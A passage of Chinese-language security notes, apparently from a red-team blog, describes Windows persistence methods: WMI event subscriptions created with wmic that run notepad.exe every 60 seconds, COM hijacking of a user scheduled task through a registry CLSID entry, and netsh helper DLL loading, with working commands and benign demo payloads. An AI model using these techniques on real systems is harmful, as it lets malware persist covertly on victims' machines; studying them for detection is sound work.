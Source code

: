 参考：

《WSC、JSRAT and WMI Backdoor》
 
#### 方法3：wmi

每隔60秒执行一次notepad.exe

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```

参考：

[《Study Notes of WMI Persistence using wmic.exe》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe/)

#### 方法4：Userland Persistence With Scheduled Tasks

劫持计划任务UserTask，在系统启动时加载testmsg.dll

操作如下：

在HKEY_CURRENT_USER\Software\Classes\CLSID\下新建项{58fb76b9-ac85-4e55-ac04-427593b1d060}

接着新建项InprocServer32

值设定为`c:\test\testmsg.dll`

testmsg.dll包含如下导出函数：

DllCanUnloadNow
DllGetClassObject
DllRegisterServer
DllUnregisterServer

等待用户重新登录

参考：

[《Userland registry hijacking》](https://3gstudent.github.io/3gstudent.github.io/Userland-registry-hijacking/)

#### 方法5：Netsh

helper DLL需要包含导出函数InitHelperDll

管理员权限：

```
netsh add helper c:\test\netshtest.dll
```

helper dll添加成功后，每次调用netsh，均会加载c:\test\netshtest.dll
